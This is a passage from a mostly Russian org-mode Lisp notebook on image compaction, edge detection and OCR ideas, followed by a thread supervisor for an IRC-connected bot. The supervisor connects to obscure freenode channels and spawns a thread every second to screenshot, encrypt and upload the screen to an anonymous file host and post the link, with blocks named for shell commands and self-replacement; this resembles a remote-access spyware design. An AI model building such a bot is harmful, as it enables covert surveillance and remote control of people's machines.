Чтобы алгоритм был cache-friendly мы проходим массив пикселей строка за строкой обновляя массивы ~packflag~ и ~packline~. Каждый элемент массива ~packflag~ содержит 0 если цвет не менялся. Если же цвет менялся - то этот элемент содержит число от 1 до 64, которое представляет собой относительный порядковый номер пикселя в квадрате 8*8, где было обнаружено изменение цвета. Элементы массива ~packline~, содержащат цвет всего квадрата 8*8, если цвет не менялся или цвет тех первых точек квадрата до изменения цвета, если считать от левого верхнего угла квадрата.

#+BEGIN_SRC lisp
  (ql:quickload "png")

  (defmacro pin (yy xx aa bb cc)
    `(progn
       (setf (aref new ,yy ,xx 0) ,aa)
       (setf (aref new ,yy ,xx 1) ,bb)
       (setf (aref new ,yy ,xx 2) ,cc)))

  (declaim (inline copy-png))

  (declaim (ftype (function (string string) fixnum)
                  copy-png))

  (setf *features*
        (remove :packrest *features*))

  ;; (pushnew :packrest *features*)


  (defun conv-8x8 (img)
    (declare (optimize (speed 3))
             (optimize (safety 0)))
    (let* ((width      (the fixnum (logand -8 (png:image-width img))))
           (height     (the fixnum (logand -8 (png:image-height img))))
           (channels   (the fixnum (png:image-channels img)))
           (bit-depth  (the fixnum (png:image-bit-depth img)))
           (packflag   (make-array `(,(ash height -3) ,(ash width -3))
                                   :element-type 'fixnum))
           (packline   (make-array `(,(ash height -3) ,(ash width -3) ,channels)
                                   :element-type '(unsigned-byte 8))))
      ;; packflag - это массив флагов равных нулю, когда в квадрате 8*8 есть только один цвет
      ;; packline - это массив этих цветов в обрабатываемой строке пикселей
      (declare  (type fixnum width)     (type fixnum height)
                (type fixnum channels)  (type fixnum bit-depth))
      (do* ((yy1      0  (+ 1 yy1))
            (yy-8-p   0  (logand yy1 7)) ;; true когда y-координата кратна 8
            (yy3      0  (ash yy1 -3)))  ;; y-индекс в массиве packflag
           ((>= yy1 height))
        (declare (type fixnum yy1) (type fixnum yy-8-p) (type fixnum yy3))
        (do* ((xx1      0  (+ 1 xx1))
              (xx-8-p   0  (logand xx1 7)) ;; true когда x-координата кратна 8
              (xx3      0  (ash xx1 -3)))  ;; x-индекс в массиве packflag
             ((>= xx1 width))
          (declare (type fixnum xx1) (type fixnum xx-8-p) (type fixnum xx3))
          (block internal-loop
            (if (= 0 xx-8-p yy-8-p)
                (progn ;; then - левый верхний угол квадрата 8x8
                  ;; (pin yy1 xx1 0 255 0) ;; ~~~~~~~ GREEN
                  (setf (aref packflag yy3 xx3) 0) ;; set packflag = 0
                  (dotimes (zz channels)           ;; save to packline
                    (setf (aref packline yy3 xx3 zz)
                          (aref img yy1 xx1 zz))))
                (progn ;; else - любая другая точка кроме верхнего левого угла
                  ;; (pin yy1 xx1 0 70 0)  ;; ~~~~~~~ DARK-GREEN
                  ;; (dotimes (zz channels) ;;~~~~~~~~~~~~~~[:::::::::::::]~~~~~
                  ;;   (setf (aref new yy1 xx1 zz)
                  ;;         (aref img yy1 xx1 zz)))
                  (if (not (= 0 (aref packflag yy3 xx3)))
                      ;; цвет в этом квадрате 8*8 уже менялся -
                      ;; нет смысла проверять опять
                      (progn
                        ;; (pin yy1 xx1 0 0 70)  ;; ~~~~~~~ DARK-BLUE
                        )
                      ;; else - цвет ранее не менялся - имеет смысл проверить сейчас
                      ;; отличается ли цвет текущего обрабатываемого пикселя от эталона
                      (progn
                        (dotimes (zz channels)
                          (if (= (aref packline yy3 xx3 zz)
                                 (aref img yy1 xx1 zz))
                              (progn ;; в
                                ;; (pin yy1 xx1 70 0 0)  ;; ~~~~~~~ DARK-RED
                                )
                              ;; else - любой канал не равен -> весь квадрат к черту
                              (progn
                                ;; (pin yy1 xx1 157 157 0) ;; ~~~~~~~ DARK-YELLOW
                                (setf (aref packflag yy3 xx3)
                                      (+ (ash (logand yy1 7) 3)
                                         (logand xx1 7))))))
                        ;; Если мы здесь, то цвет не поменялся после проверки текущего
                        ;; пикселя - тут мы пока не делаем ничего
                        (progn nil)
                        ))))) ;; end of internal-loop
          ) ;; end of do-cycle for x
        )  ;; end of do-cycle for y
      (values
       packflag packline height width channels bit-depth)))


  (defun re-conv-8x8 (packflag packline height width channels bit-depth &optional old)
    (declare (optimize (speed 3))
             (optimize (safety 0)))
    (let* ((new        (png:make-image height width channels bit-depth)))
      ;; Это отладочная часть, чтобы посмотреть на результаты компактификации
      ;; Она восстанавливает информацию из packflag и packline
      (do* ((yy1      0  (+ 1 yy1))
            (yy-8-p   0  (logand yy1 7))
            (yy3      0  (ash yy1 -3)))
           ((>= yy1 height))
        (declare (type fixnum yy1) (type fixnum yy-8-p) (type fixnum yy3))
        (do* ((xx1      0  (+ 1 xx1))
              (xx-8-p   0  (logand xx1 7))
              (xx3      0  (ash xx1 -3)))
             ((>= xx1 width))
          (declare (type fixnum xx1) (type fixnum xx-8-p) (type fixnum xx3))
          (let* ((packflag (aref packflag yy3 xx3))
                 (yy4 (ash packflag -3))
                 (xx4 (logand packflag 7)))
            (unless (= 0 packflag) ;; partially block
              (if (null old)
                  (progn ;; filled part
                    (dotimes (zz channels)
                      (setf (aref new yy1 xx1 zz)
                            127
                            ;; (logior #b10000000
                                    ;; (aref packline yy3 xx3 zz)
                                    ;; )
                            )))
                  ;; else
                  (if (and (< yy1 (+ yy4 (logand yy1 -8)))
                           (< xx3 (+ xx4 (logand xx1 -8))))
                      (progn ;; filled part
                        (dotimes (zz channels)
                          (setf (aref new yy1 xx1 zz)
                                127
                                ;; (logior #b10000000
                                ;;         (aref packline yy3 xx3 zz))
                                ))
                        )
                      ;; else - rest part
                      (dotimes (zz channels)
                        (setf (aref new yy1 xx1 zz)
                              (logand 255
                                      ;; we need only 1 bit for channel
                                      (logior #b01111111
                                              (aref old yy1 xx1 zz)))))))))))
      new))


  ;; launcher
  (let* ((img
           (with-open-file
               ;; (input "x-snapshot-true-color-telegram.png" :element-type '(unsigned-byte 8))
               (input "antalya.png" :element-type '(unsigned-byte 8))
             (png:decode input))))
    (multiple-value-bind (packflag packline height width channels bit-depth)
        (conv-8x8 img)
      (let ((new (re-conv-8x8 packflag packline height width channels bit-depth
                              ;; img
                              )))
        (with-open-file
            (output "copy1.png"
                    :element-type '(unsigned-byte 8)
                    :direction :output :if-exists :supersede)
          (png:encode new output)))))
#+END_SRC

* Edge detector

Поиск краев:

- Выберем начальный параметр - точку внутри фигуры, края которой мы хотим найти. Ее цвет должен быть равен цвету тона (Fg) и сверху над ней должна быть точка фона (Bg). Запоминаем эту точку - ~EntryPnt~ и ее же записываем в текущую точку - ~CurPnt~.
- Установим начальное направление движения "вправо" (ToRight). В дальнейшем направление движения будет меняться чтобы обходить фигуру по контуру в направлении по часовой стрелке.
- Попытка подвижения вперед:
  - Если слева по направлению движения есть точка с цветом тона (Fg), то мы должны повернуть направление влево и повторить попытку продвижения вперед.
  - Иначе (слева находится точка фона - Bg):
    - Если впереди по направлению движения есть точка с цветом тона (Fg), то мы можем продвинуться вперед. Продвигаясь вперед мы заталкиваем предыдущую точку в ~Stack~ и делаем следующую по направлению движения точку текущей - ~CurPnt~.
      - После этого мы должны проверить, не совпадает ли новая текущая точка ~CurPnt~ с начальной точкой ~EntryPnt~ - если это так, то мы обошли фигуру и дошли до начальной точки и должны вернуть ~Stack~ и выйти. В противном случае мы пытаемся продвинуться на еще одну точку вперед по направлению движения.
    - Иначе (впереди по направлению движения есть точка с цветом фона (Bg). Мы не можем продвинуться вперед, мы должны повернуть направление движения вправо и повторить попытку продвижения вперед.

#+BEGIN_SRC plantuml :file ./img/rc-edge-detector.png
  start
    :save EntryPoint;
    :set: Direction = ToRight;
    !pragma useVerticalIf on
    (M)
    if ((Fg == leftSide(CurPnt))?) then (yes)
      :set: Direction = rotateLeft(Direction);
      (M)
      detach;
    else (no)
      if ((Fg == forwardSide(CurPnt))?) then (yes)
        :push(Stack, CurPnt);
        :set: CurPnt = moveForward(CurPnt);
        if ((curPnt == EntryPoint)?) then (yes)
          :return Stack;
          stop;
        else (no)
          (M)
          detach;
        endif;
      else (no)
        :set: Direction = rotateRight(Direction);
        (M)
        detach;
      endif;
    endif;
#+END_SRC

#+BEGIN_SRC lisp
  (defun rotate-left (direction)
    (cond ((equal 'to-right direction) 'to-up)
          ((equal 'to-up direction) 'to-left)
          ((equal 'to-left direction) 'to-down)
          ((equal 'to-down direction) 'to-right)))

  (defun rotate-right (direction)
    (cond ((equal 'to-right direction) 'to-down)
          ((equal 'to-up direction) 'to-right)
          ((equal 'to-left direction) 'to-up)
          ((equal 'to-down direction) 'to-left)))

  ;; Y-координата идет в CUR-PNT первой
  ;; -1 means to low
  ;; -2 means to high
  (defun forward-side (cur-pnt direction height width)
    (destructuring-bind (yy . xx)
        cur-pnt
      (destructuring-bind (yyy . xxx)
          (cond ((equal 'to-right direction)
                 (cons yy (+ xx 1)))
                ((equal 'to-up direction)
                 (cons (- yy 1) xx))
                ((equal 'to-left direction)
                 (cons yy (- xx 1)))
                ((equal 'to-down direction)
                 (cons (+ yy 1) xx)))
        (when (< yyy 0)
          (setf yyy -1))
        (when (< xxx 0)
          (setf xxx -1))
        (when (> yyy height)
          (setf yyy -2))
        (when (> xxx width)
          (setf yyy -2))
        (cons yyy xxx))))

  ;; (forward-side-pnt-coords (cons 202 3) 'to-down 200 300)

  (defun fg-p (cur-pnt packflag)
    (destructuring-bind (yy . xx)
        cur-pnt
      (and (> yy 0)
           (> xx 0)
           (not (= 0 (aref packflag yy xx)))
           t)))

  (defun left-side (cur-pnt direction height width)
    (forward-side cur-pnt (rotate-left direction) height width))

  (defun edge-8x8 (cur-pnt height width packflag)
    (let ((entry-point cur-pnt)        ;; сохраняем начальную точку
          (stack '())                  ;; создаем пустой стек
          (direction 'to-right))       ;; задаем начальное направление
      (tagbody
       move
         (if (fg-p (left-side cur-pnt direction height width) packflag)
             (progn ;; then fg == left-side
               (setf direction (rotate-left direction))
               (go move))
             (progn ;; else bg == left-side
               (if (fg-p (forward-side cur-pnt direction height width) packflag)
                   (progn ;; then fg == forward-side
                     (push cur-pnt stack)
                     (setf cur-pnt (forward-side cur-pnt direction height width))
                     (if (and (car cur-pnt) (car entry-point)
                              (cdr cur-pnt) (cdr entry-point))
                         (return-from edge-8x8 stack)
                         ;; else
                         (go move)))
                   (progn ;; else
                     (setf direction (rotate-right direction))
                     (go move))))))))
#+END_SRC

* Cutting

Можно ли автоматически сгенерировать по этой картинке программу на форте, которая будет форкаться для того чтобы как можно быстрее воспроизвести в точности такое изображение?

Имея на входе "точки затравки" и поток байт, который управляет в каком направлении будут расти серые участки?

Я думаю о том чтобы включить в виртуальную форт-машину команды fork и exit

И над алгоритмом, который оптимальным способом построит программу для построение картинки

Еще я думаю о том, что при выполнении таких форкнутых программ мы фактически получаем ветвящееся дерево стеков, а вот входные данные - это единый поток команд для всех форкнутых кусков, просто они делают из него выборку команд каждый в своем слайсе, пока не наткнуться на exit

#+BEGIN_SRC lisp :tangle tmp2.lisp
  ;; DBG & PROFILING

  (copy-png "x-snapshot-true-color-telegram.png" "copy.png")

  (compile 'copy-png)

  (dotimes (aa 100)
    (time
     (copy-png "x-snapshot-true-color.png" "aaaaa.png")
     ))

  ;; (disassemble #'copy-png)

  ;; (require :sb-sprof)

  ;; (sb-sprof:profile-call-counts "CL-USER")

  (sb-sprof:with-profiling (:max-samples 100
                            :report :flat
                            :mode :time
                            :loop t)
    (copy-png "x-snapshot-true-color.png" "aaaaa.png"))

  ;; (sb-sprof:with-profiling (:max-samples 100
  ;;                           :mode :alloc
  ;;                           :report :flat)
  ;;   (copy-png "x-snapshot-true-color.png" "aaaaa.png"))
#+END_SRC

* Figures

У меня есть некоторая битовая матрица полученная из изображения текста. Там где были буквы - теперь битовые единицы, там где был фон - битовые нули.

Я вижу, что битовые единицы в среднем образуют замкнутые фигуры, вытянутые в горизонтальном направлении. Они похожи на серию кирпичей в стене, как если бы кто-то пытался закрасить только те кирпичи, на которых были написаны слова. Где между слов были пробелы, там кирпичи остались незакрашенными.

Я хочу построить алгоритм, который анализирует эту битовую матрицу и составляет минимальное по размеру описание этих фигур. Этого описания должно быть достаточно, чтобы воспроизвести фигуру по нему.

Если для каждой фигуры передавать только те точки, которые ее ограничивают, тогда по этим точка границ, мы можем позже залить внутренность фигуры и таким образом воссоздать ее.

При сканировании матрицы точек, когда мы встречаем единичный бит, это значит мы обнаружили край фигуры - это начальная точка. Теперь мы можем следовать вдоль ее границы, т.е. выбирать следующую точку так, чтобы нулевой бит был "с той же стороны" что и у предыдущей. У нас не такой большой выбор: по отношению к предыдущей посещенной точке новая точка может быть слева, справа, спереди или (если мы зашли в тупик) сзади. Для этих четырех вариантов нам нужно только два бита на шаг. Алгоритм может предпочитать всегда левый поворот, если он возможен. Тогда слева от текущей точки всегда будут нулевые биты, а справа единичные.

Для выпуклой фигуры мы должны в конце концов дойти до начальной точки и считать, что фигура найдена. Если попытаться ее залить и сравнить с исходной матрицей, то в случае полного совпадения мы имеем выпуклую фигуру и внутри нее нет нулевых точек.

На каждом шаге движения по границе алгоритм может выдавать в выходной поток два бита, которые определяют был ли поворот: "00" для движения в том же направлении, "11" для разворота и шага назад, "10" для поворота и шага налево, "01" для поворота и шага направо. По начальной координате и этому потоку бит можно восстановить всю фигуру.

Так как фигуры в основном выпуклые и вытянутые по горизонтали, чаще всего будет происходить движение прямо и  соответствующая последовательность нулей может быть эффективно сжата впоследствии.

Фигуры почти всегда были бы вытянутыми прямоугольниками, если бы не буквы, написание которых выдается за пределы строки вниз - "q p g", или вверх "d l".

Если две строчки находятся одна под другой и в верхней строчке была буква с нижним подстрочным элементом, такая как "q" а в верхней строчке - с верхним надострочным элементом, такая как "d" - они могли соприкоснуться, и вместо двух раздельных прямоугольников мы получаем одну фигуру из двух прямоугольников но связанных перемычкой (или несколькими). Причем эти перемычки могут быть достаточно толстыми.

Как их можно разделить?

#+BEGIN_SRC lisp
  (defun bitmap-parser (matrix start-point)
    (let ((curr-point start-point)
          (result-string ""))
      ;; Go through each point in the matrix
      (dolist (row matrix)
        (dolist (point row)
          ;; If the current point is 1
          (if (= 1 point)
              (let ((prev-point (previous-point matrix curr-point)))
                ;; Generate a 2-bit string based on the relative positions
                ;; of the current and previous points
                (cond
                  ((= curr-point prev-point)
                   (setf result-string
                         (concatenate 'string result-string "00")))
                  ((adjacent-points-same-direction? curr-point prev-point)
                   (setf result-string
                         (concatenate 'string result-string "10")))
                  (t (setf result-string
                           (concatenate 'string result-string "01"))))
                ;; Check for end of figure
                (when (end-of-figure? matrix curr-point start-point)
                  (return result-string))))
          ;; Set current point to the next one
          (setf curr-point (next-point matrix curr-point))))))

  ;; Helper functions to find the next/previous point and check if two
  ;; points are adjacent in a certain direction
  (defun next-point (matrix coords) ...)
  (defun previous-point (matrix coords) ...)
  (defun adjacent-points-same-direction? (a b) ...)
  (defun end-of-figure? (matrix curr-point start-point) ...)
#+END_SRC

* TODO Ideas

Несколько серверов могут делать лонг-пуллинг для множества клиентов

* TODO TMP

- Получение и обработка изображения
  - Выделение строк в тексте
  - Деление блока по вертикальным белым просветам
    - Вертикальная проекция - просто посмотреть сколько белых пикселей в каждой строчке и найти белые просветы в этих проекциях; все что находится между этими белыми просветами - это строчки
    - Горизонтальная проекция сегментирует слова (широкие просветы) и символы (узкие просветы)
    - OverSegmetation - строим структуру "граф линейного деления" - набор гипотез где могут быть отдельные символы - для каждого ребра этого графа нужно произвести символьное распознавание, в итоговом графе найти наилучший путь, опираясь на результаты распознавание отдельных символов и какую-то контекстную информацию.
    - Выбор в пайплайне - задача для обучения с подкреплением.
- Анализ структуры страницы
- Распознавание текста
- Синтез документа из распознаных фрагментов
- Сохранение в нужном формате

Структура сети (LSTM):
- Сверточный блок (CNN) - извлекает последовательность визуальных признаков
- Рекуррентный блок  (RNN) - делает предсказания символов

SegLink - Segmens and Link:
- Сегменты - это квадратные участки изображения
- Те сегменты что лежат внутри одного бокса (они в одном слове) мы соединяем линками - это ребро графа
- Сеть предсказывает эти сегменты и линки.
- Работать на нескольких масштабах - 64*64, 32*32, тогда добавляются линки между сегментами разных масштабов
- Кластеризация segments через links с помощью нахождения компонентов связности через dfs
- Segments из одного кластера используют для построения итогового bbox-a

Восстановление ошибок распознавание по словарю

Извлечение смысла с chatGPT и классификаторами

#+NAME: min
#+BEGIN_SRC lisp :tangle ./src/tmp.lisp :noweb yes :exports code
  <<min>>

  <<queue>>

  <<task>>

  <<x_snapshot>>

  ;; (x-snapshot :path "x-snapshot-true-color.png")
#+END_SRC

* TODO Terminating lazy threads

The second thing suspicious to ~PHOENIX~ is when the thread under investigation does not do its job. There may be one or more incoming queues associated with each thread. If there are too many messages piled up in the inbox, this is a reason to kill:

#+NAME: rule_of_killing_threads_by_queue_overflow
#+BEGIN_SRC lisp
  (alexandria:named-lambda rule-of-killing-threads-by-queue-overflow ()
    (let ((thread-structs (get-all-threads)))
      (loop for suspicious in thread-structs :do
        (let ((max-queue-size 30))
          (if (< max-queue-size (thread-queue-size suspicious))
              (kill-thread suspicious))))))
#+END_SRC

There can be many more such rules. Not all of them are born to kill. For example, this rule will create a thread named "irc-conn" if no such thread already exists:

#+NAME: rule_of_born_irc_conn_threads
#+BEGIN_SRC lisp
  (alexandria:named-lambda rule-of-born-irc-conn-threads ()
    (let ((thread-structs (get-all-threads)))
      (lambda (thread-structs)
        (let ((irc-conn-thread (find-thread "irc-conn")))
          (make-irc-conn-thread)))))
#+END_SRC

Now that we have the rules, it is enough to call them one after another. Just for convenience, I moved outside the auxiliary functions that the rules need:

#+NAME: phoenix_processor_of_rules
#+BEGIN_SRC lisp :noweb yes :exports code
  (labels ((get-all-threads ()
             nil)
           (how-many-times-have-i-seen-you ()
             nil)
           (kill-thread ()
             nil)
           (thread-queue-size ()
             nil)
           (find-thread (name)
             nil)
           (make-irc-conn-thread ()
             nil))
    (let ((rules
            (list
             <<rule_of_killing_threads_by_time>>
             <<rule_of_killing_threads_by_queue_overflow>>
             <<rule_of_born_irc_conn_threads>>)))
      (loop for rule in rules do
        (funcall rule))))
#+END_SRC

To avoid race conditions, it is necessary to use thread-operations-lock


#+NAME: phoenix
#+BEGIN_SRC lisp :tangle ./src/max.lisp :noweb yes :exports code
  (defparameter *thread-operations-lock*
    (bt:make-recursive-lock "thread-operations-lock"))

  (defparameter *phoenix*
    (lambda ()
      <<phoenix_processor_of_rules>>
      ))
#+END_SRC

The rest of the logic of the work will be encapsulated in the correct order of rules. We will consider it in the next sections, but for now we will limit ourselves to the diagram:




[TODO:gmm] -=HERE=- ----------------------------------------


Мы хотим создать надежную систему, но подключение к интернету может быть ненадежным, к тому же нет уверенности в том, что все ошибки, которые могут возникнуть, будут корректно перехвачены.

Поэтому мы сделаем супервизор, который будет перезапускать потоки, в которых будет происходить основная работа. Если у потока возникнут проблемы - супервизор отследит это и перезапустит поток.

Чтобы иметь возможность изменять супервизор на лету, мы оформим его как лямбду в глобальной переменной, которую будет вызывать функция ~supervisor-loop~.

Мы также используем флаги, размещенные в глобальных переменных, чтобы супервизор мог принудительно завершать потоки. Если что-то пойдет не так то поток может, например, перезапустить себя, выставив нужный флаг.

Каждую секунду супервизор инкрементирует состояние переменной ~watchdog-timer~. Если поток завис и не сбрасывает эту переменную в ноль - супервизор принудительно завершает поток, что приводит к его перезапуску.

Если соединение с irc-сервером установлено (о чем свидетельствует ~connection-established-flag~) то супервизор должен запускать новый поток репортинга каждую секунду. Задача этого потока - сделать скриншот экрана, поместить в png-файл, зашифровать его, загрузить на файлообменник и послать полученную ссылку в чат. После выполнения задачи поток должен завершиться. Это не обязательно произойдет - он может зависнуть из-за ошибки или просто слишком долго работать. Поэтому супервизор отслеживает количество таких потоков и если их становится больше чем ~max-shot-thread-cnt~ удаляет те, которые работают слишком долго.

[TODO:gmm] Возможно, эта модель не требуется, т.к. нам не нужно создавать по отдельному потоку для скриншотинга каждую секунду. Т.е. мы вполне можем обойтись только контролем зависания одного потока, в котором работает цикл приема сообщений.

#+NAME: supervisor
#+BEGIN_SRC lisp :noweb yes :exports none
  <<debug>>

  (defparameter *max-diffs-cnt* 4)

  (defparameter *sleep-interval* 3)

  (defparameter *watchdog-timer* 0)

  (defparameter *watchdog-timer-max* 100)

  (defparameter *supervisor-stop-flag* nil)

  (defparameter *irc-th-stop-flag* nil)

  (defparameter *shot-th-stop-flag* nil)

  (defparameter *connection-established-flag* nil)

  (defparameter *shot-threads* nil)

  (defparameter *max-shot-thread-life-time* 5)

  (defparameter *max-shot-thread-cnt* 5)

  (defparameter *thread-operations-lock*
    (bt:make-recursive-lock "thread-operations-lock"))

  ;; irc
  <<irc>>

  ;; update
  <<update>>

  ;; shot
  <<shot>>

  ;; upload_code
  <<upload_code>>

  ;; replace_yourself
  <<replace_yourself>>

  ;; remote_gui
  <<remote_gui>>

  ;; shell_command
  <<shell_command>>

  (defparameter *supervisor*
    (lambda ()
      (let ((all-threads (mapcar #'(lambda (th)  (cons (bt:thread-name th) th))
                                 (bt:all-threads))))
        (labels ((fnd (name) (loop :for (nm . th) :in all-threads
                                :do (when (equal name nm)  (return th))))
                 (kill (th)  (handler-case (bt:destroy-thread th)
                               ;; happens, when thread destroyed already
                               (TYPE-ERROR () nil)))
                 (kill-irc (th)
                   (kill th)
                   (setf *watchdog-timer* 0)
                   (setf *connection-established-flag* nil))
                 (clear ()
                   (bt:with-recursive-lock-held (*thread-operations-lock*)
                     (setf *shot-threads*
                           (remove-if-not #'(lambda (pair)
                                              (bt:thread-alive-p (car pair)))
                                          ,*shot-threads*)))))
          ;; if there is no irs-thread then start it
          (when (and (null (fnd "irc-th"))       ;; no irc-th
                     (null *irc-th-stop-flag*))  ;; no irc-th stop flag
            (dbg "::supervisor lambda: start irc-th~%")
            (setf *watchdog-timer* 0)
            (bt:make-thread
             #'irc :name "irc-th"
             :initial-bindings
             `((*standard-output* . ,*standard-output*)
               (*irc-thread-stop-flag* . ,*irc-th-stop-flag*))))
          ;; if there is irc-thread, but the watchdog-timer exceeds
          ;; or the flag is set - then kill it.
          (awhen (fnd "irc-th")
            (when (> *watchdog-timer*  *watchdog-timer-max*)
              (dbg "::supervisor-lambda: kill irc-th by WDG~%")
              (kill-irc it))
            (when *irc-th-stop-flag*
              (dbg "::supervisor-lambda: kill irc-th by FLAG~%")
              (kill-irc it)))
          ;; kill latecomers shot-threads if there are too many
          ;; TODO: debug it!
          (when (> (length *shot-threads*) *max-shot-thread-cnt*)
            (dbg "::supervisor-lambda: many threads~%")
            (loop :for (shot-th . time) :in *shot-threads* :do
                 (dbg "~A . ~A~%" shot-th time)
                 (when (> (- (get-universal-time) time)
                          ,*max-shot-thread-life-time*)
                   (dbg "::supervisor-lambda: kill shot-th by lifetime exceed~%")
                   (kill shot-th)))
            (clear))
          ;; start new shot-thread (every second when connection-established)
          (clear)
          (when *connection-established-flag*
            (let ((bindings `((*standard-output* . ,*standard-output*)
                              (*shot-th-stop-flag* . ,*shot-th-stop-flag*)
                              (*irc-sess* . ,*irc-sess*)
                              (*irc-user* . ,*irc-user*)
                              (*irc-serv* . ,*irc-serv*)
                              (*irc-chan* . ,*irc-chan*)
                              (*irc-lock* . ,*irc-lock*)
                              (*irc-conn* . ,*irc-conn*)
                              (*watchdog-timer* . ,*watchdog-timer*))))
              (bt:with-recursive-lock-held (*thread-operations-lock*)
                (push (cons (bt:make-thread #'shot :name "shot-th"
                                            :initial-bindings bindings)
                            (get-universal-time))
                      ,*shot-threads*))))))))

  (defun supervisor-loop ()
    (setf *watchdog-timer* 0)
    (tagbody
     infinite
       (when *supervisor-stop-flag*
         (go end))
       (dbg "::supervisor-loop WDG=~3,'0D~%" *watchdog-timer*)
       (funcall *supervisor*)
       (sleep *sleep-interval*)
       (incf *watchdog-timer*)
       (go infinite)
     end))

  (supervisor-loop)
#+END_SRC

Ниже - диаграмма работы супервизора с остальными компонентами

#+BEGIN_SRC plantuml :file ./img/survey-01.png
  participant Supervisor
  participant Shot_Thread
  participant Irc_Thread
  participant Irc_Helper
  participant Irc_Server
  hide footbox
  create Irc_Thread
  Supervisor -> Irc_Thread : make_thread
  Supervisor -> Supervisor : wait for **CONNECTION_ESTABLISHED_FLAG**
  Irc_Thread -> Irc_Server : connect
  Irc_Server -> Irc_Thread : ok

  group Irc_Loop
    create Irc_Helper
    Irc_Thread   -> Irc_Helper : make_thread
    Irc_Thread -> Irc_Thread : read_message_loop
    activate Irc_Helper
    note right Irc_Helper
      add_hook **IRC_MSG_HOOK**
      join to channel
      send presence
      set **CONNECTION_ESTABLISHED_FLAG**
    end note
    Irc_Helper --> Irc_Helper :
    destroy Irc_Helper
	end

  Irc_Thread --> Irc_Thread : IRC_MSG_HOOK
  Irc_Thread --> Irc_Thread : IRC_MSG_HOOK
  Irc_Thread --> Irc_Thread : IRC_MSG_HOOK

  group When **CONNECTION_ESTABLISHED_FLAG**
    create Shot_Thread
    Supervisor -> Shot_Thread : make_thread
    activate Shot_Thread

    note over Shot_Thread
      x_snapshot
      pack_img
    end note

    group Wrap_Img
      note over Shot_Thread
        encrypt
        anon-file-upload
        sendmsg
      end note
    end

    Shot_Thread --> Shot_Thread :
    destroy Shot_Thread
	end
#+END_SRC

#+results:
[[file:./img/survey-01.png]]

[[file:./img/survey-01.png]]

* Channel Name

Мы будем использовать разные irc-каналы для коммуникации с разными абонентами - так их проще отлаживать по отдельности.

Для этого создадим функцию, которая будет определять имя канала при tangling-e

#+NAME: get_irc_channel_name
#+BEGIN_SRC elisp
  "nvrtlessfndout"
#+END_SRC

  "wntriscoming"

* File Destionation

Таким же образом мы будем танглить путь для сохранения файлов

#+NAME: get_dest_path
#+BEGIN_SRC elisp
  "tan"
#+END_SRC

  "wnt"
* Irc

Работа с IRC состоит из нескольких этапов
- Подключение
- Запуск цикла чтения сообщений
- Установка хука, чтобы перехватить сообщения-команды
- Подключение к каналу и отправка первого сообщения

После этого мы можем отпралять сообщения в канал, а когда другие сообщения будут приходить наш хук будет выполнен.

** Connect

Начнем с подключения к IRC - нашему коммуникационному каналу.

Если нет подключения к сети мы получим ошибку ~USOCKET:NS-TRY-AGAIN-CONDITION~, которая будет проигнорирована, но записана в лог, как и любые другие ошибки подключения. В этих случаях функция ~irc-loop~ не будет вызвана, произойдет выход их функции потока и поток будет завершен. Обнаружив отсутствие потока супервизор перезапустит его и это приведет к следующей попытке подключения.

Если подключение произошло успешно - мы вызываем ~irc-loop~.

#+NAME: irc
#+BEGIN_SRC lisp :noweb yes
  (defparameter *irc-sess* nil) ;; (get-universal-time)
  (defparameter *irc-user* nil) ;; (format nil "b~A" *irc-sess*)
  (defparameter *irc-serv* "irc.freenode.org")
  (defparameter *irc-chan* "#<<get_irc_channel_name()>>")
  (defparameter *irc-lock* (bt:make-recursive-lock "irc-lock"))
  (defparameter *irc-conn* nil)

  <<irc_loop>>

  (defun irc ()
    "irc thread func"
    (setf *irc-sess* (get-universal-time))
    (setf *irc-user* (format nil "b~A" *irc-sess*))
    (setf *irc-conn*
          (handler-case
              (cl-irc:connect :nickname *irc-user* :server *irc-serv*)
            (USOCKET:NS-TRY-AGAIN-CONDITION (err)
              (dbg "::irc connect error: ~A~%" (type-of err))
              nil)
            (t (err)
              (dbg "::irc connect error: ~A~%" (type-of err))
              nil)))
    (when *irc-conn*
      (dbg "::irc conn:~A~%" *irc-conn*)
      (setf *watchdog-timer* 0)
      (irc-loop)))
#+END_SRC

** Read loop

После успешного подключения мы запускаем цикл чтения сообщений из коммуникационного канала. В случае успеха этот поток будет зациклен в нем, поэтому здесь мы должны запустить вспомогательный поток ~irc-helper~, который установит нужные хуки

При временном отключении интернета внутри ~CL-IRC:READ-MESSAGE-LOOP~ может возникнуть ошибка ~SB-INT:SIMPLE-STREAM-ERROR~ с сообщением вида couldn't read from #<SB-SYS:FD-STREAM for "socket 192.168.0.102:50644, peer: 149.56.134.238:6667" {1008002283}>: Connection reset by peer

В этом случае нужно сделать реконнект. Чтобы его осуществить мы просто игнорируем ошибку, выведя её в лог и возвращая NIL. Это приводит к выходу из функции потока и супервизор запустит поток снова на следующем шаге.

Я временно отключил игнорирование ошибок, чтобы поймать их, если они произойдут. По идее все возможные ошибки перехватываются в местах их возникновения, если это не так - я увижу это, т.к. игнор отключен.

#+NAME: irc_loop
#+BEGIN_SRC lisp :noweb yes
  <<irc_helper>>

  (defun irc-loop ()
    (bt:make-thread
     #'irc-helper :name "irc-helper-th"
     :initial-bindings
     `((*standard-output* . ,*standard-output*)
       (*irc-sess* . ,*irc-sess*)
       (*irc-user* . ,*irc-user*)
       (*irc-serv* . ,*irc-serv*)
       (*irc-chan* . ,*irc-chan*)
       (*irc-lock* . ,*irc-lock*)
       (*irc-conn* . ,*irc-conn*)))
    (handler-case (cl-irc:read-message-loop *irc-conn*)
      (SB-INT:SIMPLE-STREAM-ERROR (err)
        (dbg "::irc-loop error: ~A~%" (type-of err)))
      ;; (t (err)
      ;;   (dbg "::irc-loop error: ~A~%" (type-of err)))
      ))
#+END_SRC

** Irc helper

После того как мы запустили цикл чтения сообщений следует подождать немного, чтобы успели дойти приветственные сообщения канала.

Мы устанавливаем хук чтобы перехватить приход сообщений и подключаемся к каналу.

После этого мы считаем, что соединение корректно установлено, о чем сигнализируем установкой флага *connection-established-flag*

После этого можно отправить сообщение о присутствии.

Затем поток завершается - свою задачу он выполнил.

[TODO:gmm] По-видимому, вероятна ситуация, когда пропадает коннект в момент передачи сообщения в канал. В этом случае поток застревает в блокировке, не давая ее взять другим потокам. Я добавил ~recursive-lock~, но этого недостаточно. Полагаю, необходимо применение таймаутов на блокировку, но пока не могу придумать модельную ситуацию чтобы проверить это.

#+NAME: irc_helper
#+BEGIN_SRC lisp :noweb yes
  (defmacro sendmsg (msg &rest params)
    `(bt:with-recursive-lock-held (*irc-lock*)
       (handler-case
